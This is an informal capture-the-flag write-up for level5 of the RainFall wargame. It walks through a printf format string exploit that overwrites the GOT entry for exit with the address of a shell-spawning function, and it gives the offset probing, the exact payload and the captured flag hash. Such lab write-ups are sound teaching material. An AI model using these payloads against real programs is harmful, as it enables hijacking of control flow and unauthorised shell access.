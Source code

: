 Ok so this one is tricky

Main calls N that uses fgets and printf, so it's probably printf that we should attack.
There is also another function o that calls a bash instance. We need to reach that somehow.

But the functions don't return they straight up exit.

I guess we should try to replace the exit function address with o
So we need to find where the exit address is on the stack, there is two exit functions at addresses 0804a014 and 0804a004 it seems, lets try to find one of them

None found

Turns out exit is an external function, and we can find its address with objdump -R or by looking a bit more in ghydra 0x08049838

So now the plan is to override the value at this address with o address 0x080484a4

>>> struct.pack('<I', 0x08049838)
b'8\x98\x04\x08'



level5@RainFall:~$ python -c 'print ("aaaa " + "%x " *10)' | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078

Our input value is at index 4

python -c 'print("8\x98\x04\x08" + "%4$n" )


And we need to add the proper padding to recreate the good value, 0x080484a4 in decimal is 134513828 so remove 4 for the first bytes 134513824


python -c 'print("8\x98\x04\x08" + "%134513824d%4$n" )' > /tmp/exploit3

cat /tmp/exploit3 - | ./level5

d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31